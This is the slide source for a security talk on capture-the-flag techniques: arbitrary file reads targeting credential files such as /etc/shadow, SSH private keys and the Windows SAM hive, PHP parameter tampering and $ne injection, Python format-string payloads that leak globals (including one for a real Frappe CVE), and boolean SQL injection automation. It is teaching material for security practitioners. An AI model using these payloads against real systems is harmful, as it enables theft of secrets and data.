

<!--
Thumbnail
npx @marp-team/marp-cli@latest --theme-set nord.css --image jpeg -o from-input-to-injection.jpg .

Server
npx @marp-team/marp-cli@latest --theme-set nord.css --html .

HTML
npx @marp-team/marp-cli@latest --theme-set nord.css --html -o 2024-08-14-from-input-to-injection.html --title 'From Input to Injection: Practical Lessons from HKIRC CTF' --description 'Casual sharing on interesting techniques we picked up from HKIRC CTF: arbitrary file reads, PHP parameter tampering, and Python format string injection. We also explore how to automate boolean SQL injection for speed and fun.' --url https://trebledj.me/slides/from-input-to-injection/ --og-image /img/slides/from-input-to-injection.jpg pres.md

PDF
npx @marp-team/marp-cli@latest --theme-set nord.css --html -o 2024-08-14-from-input-to-injection.pdf --pdf --allow-local-files .
-->

<style>
    * { font-size: 32px; }
    .hljs-comment {
        color: #96a0ab;
    }
    footer { color: #888; }
    h1 { font-size: 80px; }
    h2 { font-size: 60px; }
    h3 { font-size: 48px; }
    pre * { font-size: 24px; }

    img[alt~="center"] {
        display: block;
        margin: 0 auto;
    }
</style>

<!-- _paginate: false -->
<!-- _footer: "" -->
# From Input to Injection
## Practical Lessons from HKIRC CTF

<br>

[@TrebledJ](https://trebledj.me/)&nbsp;&nbsp;&nbsp;•&nbsp;&nbsp;&nbsp;2024 Aug. 14

---

## 1 — Interesting Techniques
#### 2 – Boolean SQLi: PoC to Flag in 5 Minutes

---

## 1.1 — Arbitrary File Reads <span data-marpit-fragment style="font-size:60px">with `/proc/**`</span>

Where do we usually look when we have an arbitrary file read? (On Linux)

* `/etc/passwd`, `/etc/shadow` - users, hashes
* `/home/<user>/.ssh/authorized_keys` - SSH public keys, algos
* `/home/<user>/.ssh/id_*` - SSH private keys
* `/proc/<pid>/cmdline` - commands!!! + file structure!!!
* `/proc/<pid>/environ` - env when process started
* `/proc/<pid>/cwd` - cwd when process started

<br/>

<!-- Did I miss anything? -->

<!-- 
<div data-marpit-fragment>

Reference: [Linux File System - `/proc`](https://tldp.org/LDP/Linux-Filesystem-Hierarchy/html/proc.html)
</div>
-->

---

<!-- _footer: "" -->




---

### What about Windows?


Files:
```sh
C:\inetpub\web.config
C:\Windows\System32\drivers\etc\hosts
C:\Windows\System32\config\SAM
C:\Users\<username>\ntuser.dat    # registry hive
```

<div data-marpit-fragment>

What about command line info?

```powershell
# PowerShell
Get-WmiObject -Class Win32_Process | Select-Object CommandLine

# cmd.exe
wmic process get CommandLine
```

But not a file. :(

</div>


---

<!-- _footer: "" -->

## 1.2 — PHP Parameter Tampering

`login.php` (simplified):

```php
$username = $_GET['username']
$password = $_GET['password']
$userinfo = ... // (optional) user controllered input

$userinfo["id"] = ...
$userinfo["username"] = $username;
$userinfo["password"] = $password;
$_SESSION["userinfo"] = $userinfo;
```

Normal usage:
```http
POST /login.php HTTP/1.1
...

username=darklab&password=123456
```

---

`$userinfo`
- Originally `array()`, but can tamper to be string.
- This means `["..."]` becomes `[0]`.

Data Type Tampering:
```http
POST /login.php HTTP/1.1
...

username=darklab&password=123456&userinfo=abc
```

```php
$userinfo = "abc"
$userinfo["id"] = "123" // $userinfo[0] = '1'
$userinfo["username"] = "admin" // $userinfo[0] = 'a'
$userinfo["password"] = "password" // $userinfo[0] = 'p'

$_SESSION["userinfo"] = $userinfo;
```

---

## CVEs?


Couldn't find.

<!-- But on a related note... -->

---

```http
POST /login.php HTTP/1.1
...

user=joe&password=123456
```

```
=> $_POST = array( [user]="joe", [password]="123456" )
```

<hr/>
<div data-marpit-fragment>


```http
POST /search.php HTTP/1.1
...

user[$ne]=joe&password=123456
```

```
=> $_POST = array( [username]=array([$ne]="joe"), [password]="123456" )
```
</div>

<style scoped>
    div[data-bottom-text] {
        display: flex;
        flex-direction: row;
        justify-content: space-between;
        width: 100%;
    }
</style>
<div data-marpit-fragment data-bottom-text><span>Potential <a href="https://www.php.net/manual/en/mongodb.security.request_injection.php">MongoDB Injection!</a></span><span>Also check out PHP Type Juggling.</span></div>

<!-- PHP types are more brittle than you think. -->

---

## 1.3 — Python Format String Injection

```
DEMO \o/
```

---

Ultra Simplified Example:

```python
PASSWORD = 'password_5910f7f523cd780c67'

class Car:
    def __init__(self, make, year, color):
        self.make, self.year, self.color = make, year, color
    
    def __str__(self):
        return f'Car(make={self.make},year={self.year},color={self.color})'

print(input('Input: ').format(Car('Toyota', 2020, 'Blue')))
# {0.__init__.__globals__[PASSWORD]}
```

- Info disclosure!
- `()` - function call doesn't work. No RCE :(

<div data-marpit-fragment>
But what if the variable is in a different file?
</div>

---

No problem!

```python
{user.__init__.__globals__[__loader__] \
 .__init__.__globals__[sys].modules[HealthyBMI.settings] \
 .__dict__[FLAG]} 

# user_controlled_string.format(user=request.user)
```

1. Get loader (importer).
2. Get module.
3. Get global symbol.

<style scoped>
    img[alt~="img1"] {
        position: absolute;
        top: 370px;
        left: 650px;
        width: 550px;
    }
</style>


<br/>

<!-- Django app! -->

---

## Real Problems, Real Vulns

Various Python format-string CVEs:

<style scoped>
    ul p { margin-bottom: 0; }
    ul ul p { margin-top: 0.25rem; }
    ul pre { margin-top: 0.5rem; }
</style>

- CVE-2014-6262 - rrdtool (bandwidth/temp/CPU load collector) → RCE, DoS
* CVE-2022-27177 - [ConsoleMe](https://github.com/Netflix/consoleme) (AWS IAM permissions and credential management) → Info Disc, RCE(?)
* CVE-2023-41050 - [RestrictedPython](https://github.com/zopefoundation/RestrictedPython) (Python jail)
    - [Frappe Framework](https://github.com/frappe/frappe) server script → [jail escape → Info Disc, RCE(?)](https://www.exploit-db.com/exploits/51580)
        <div data-marpit-fragment>

        ```python
        {g.gi_frame.f_back.f_back.f_back.f_back.f_back.f_back \
         .f_back.f_back.f_back.f_back.f_back.f_back.f_back \
         .f_globals[frappe].local.conf}
        ```
        </div>

<!-- FrappeFramework: Low code SAAS. Think of it as a CMS. -->
<!-- Questions!??-->

---

#### 1 — Interesting Techniques
## 2 — Boolean SQLi: PoC to Flag in 5 Minutes

<!-- Who has discovered and exploited this in engagements? -->
<!--
- Ramble
-->

---

### My Secret Sauce — bsqli.py

* Used in OSCP + Multiple Engagements
* Employs similar tricks used by SQLmap, but urges the user to take more control
* Prettier interface (IMHO): CLI, multiprocessing
* https://github.com/TrebledJ/bsqli.py

---

## Demo Walkthrough

```
\o/ DEMO \o/
```

<!-- Walkthrough SQLite Demo: -->
<!-- - Basic PoC -->
<!-- - PoC with UNICODE/SUBSTRING -->
<!-- - PoC with script -->

---

Basic PoC


PoC with Script: Get DB Version


---

Get Table Names (starting with `f`)


Get DB Name


Get Columns. (`SELECT *` won't work bc subqueries expect one column.)


---

Now that we know the db, table, and column, we can `select`-`from` it.


GG!

---

<!-- _footer: "" -->
<style scoped>
img[alt~="img1"] {
  position: absolute;
  top: 30px;
  left: 30px;
  border: 2px solid white;
}
img[alt~="img2"] {
    position: absolute;
    top: 220px;
    left: 310px;
    width: 1000px;
    border: 2px solid white;
}
img[alt~="img3"] {
    position: absolute;
    top: 550px;
    left: 360px;
    width: 800px;
    border: 2px solid white;
}
</style>


---

### Why go deeper?

* Explore Attack Chain - discover creds, users, PII, etc.
* Client may not understand risk from "version poc".
    - "Ok. So we're using MySQL 8.33. Big deal." - Oblivious Person
* Understand their systems design.
    - Multiple apps using the same DB is a risk.
    - UAT and prod using the same DB is a risk.

<!--
Share about that engagement with multiple subsidiaries.
-->

<!-- ---

### Takeaways

* Speed matters.
* Enumerate both widely and deeply.
* If you repeat something *a lot*, consider automating it.
    * Downside: (probably) no BD hours. -->

---

## Resources

Techniques
- [Linux File System - `/proc`](https://tldp.org/LDP/Linux-Filesystem-Hierarchy/html/proc.html)
- [PHP Parameter Tampering and Request Injection](https://www.php.net/manual/en/mongodb.security.request_injection.php)
- [HackTricks – Python Read Gadgets](https://book.hacktricks.wiki/en/generic-methodologies-and-resources/python/python-internal-read-gadgets.html) • [Python Format String](https://book.hacktricks.wiki/en/generic-methodologies-and-resources/python/bypass-python-sandboxes/index.html#sensitive-information-disclosure-payloads)
- [Python Format String Syntax](https://docs.python.org/3.12/library/string.html#format-string-syntax)

<hr/>

bsqli.py
- [bsqli.py Script](https://github.com/TrebledJ/bsqli.py)
- [Blog Post on SQL + Automation Tricks and Tips](https://trebledj.me/posts/automating-boolean-sql-injection-with-python/)

---

<!-- _footer: "" -->


Slides are available at: https://trebledj.me/slides/

<br/>

Hope you enjoyed!

